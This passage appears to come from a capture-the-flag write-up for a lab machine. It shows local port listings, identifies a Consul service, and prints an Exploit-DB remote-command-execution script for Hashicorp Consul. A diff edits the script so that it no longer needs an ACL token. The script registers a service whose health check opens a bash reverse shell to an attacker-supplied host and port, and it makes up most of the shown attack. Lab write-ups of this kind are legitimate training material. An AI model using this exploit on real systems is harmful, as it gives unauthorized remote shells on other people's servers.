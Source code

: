 ```
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
### Consul by Hashicorp
- `Consul` is running on `127.0.0.1:8500/ui/`
![Pasted image 20250207200723.png](/assets/img/img_Heal/Pasted%20image%2020250207200723.png)


#### Exploit
- Using: [PoC](https://www.exploit-db.com/exploits/51117)
- Updates:
```diff
# Exploit Title: Hashicorp Consul v1.0 - Remote Command Execution (RCE)
# Date: 26/10/2022
# Exploit Author: GatoGamer1155, 0bfxgh0st
# Vendor Homepage: https://www.consul.io/
# Description: Exploit for gain reverse shell on Remote Command Execution via API
# References: https://www.consul.io/api/agent/service.html
# Tested on: Ubuntu Server
# Software Link: https://github.com/hashicorp/consul

import requests, sys

- if len(sys.argv) < 6:
+ if len(sys.argv) < 5:
    print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport> <acl_token>\n")
    exit(1)

target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
- headers = {"X-Consul-Token": f"{sys.argv[5]}"}
json = {"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{sys.argv[3]}/{sys.argv[4]} 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}

try:
-    requests.put(target, headers=headers, json=json)
+    requests.put(target, json=json)
    print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
except:
```